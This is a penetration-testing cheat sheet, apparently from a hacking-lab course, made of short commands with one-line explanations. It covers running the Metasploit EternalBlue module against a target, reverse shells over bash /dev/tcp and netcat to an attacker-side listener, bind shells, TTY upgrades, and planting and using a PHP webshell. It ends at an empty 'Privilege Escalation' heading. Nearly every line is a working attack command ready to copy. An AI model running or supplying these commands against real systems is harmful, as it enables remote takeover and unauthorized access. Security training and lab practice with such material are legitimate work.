 MSF: Start the Metasploit Framework

`search exploit eternalblue`

MSF: Search for public exploits in MSF

`use exploit/windows/smb/ms17_010_psexec`

MSF: Start using an MSF module

`show options`

MSF: Show required options for an MSF module

`set RHOSTS 10.10.10.40`

MSF: Set a value for an MSF module option

`check`

MSF: Test if the target server is vulnerable

`exploit`

MSF: Run the exploit on the target server is vulnerable

**Using Shells**

`nc -lvnp 1234`

Start a  `nc`  listener on a local port

`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

Send a reverse shell from the remote server

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

Another command to send a reverse shell from the remote server

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

Start a bind shell on the remote server

`nc 10.10.10.1 1234`

Connect to a bind shell started on the remote server

`python -c 'import pty; pty.spawn("/bin/bash")'`

Upgrade shell TTY (1)

`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice

Upgrade shell TTY (2)

`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`

Create a webshell php file

`curl http://SERVER_IP:PORT/shell.php?cmd=id`

Execute a command on an uploaded webshell

**Privilege Escalation**
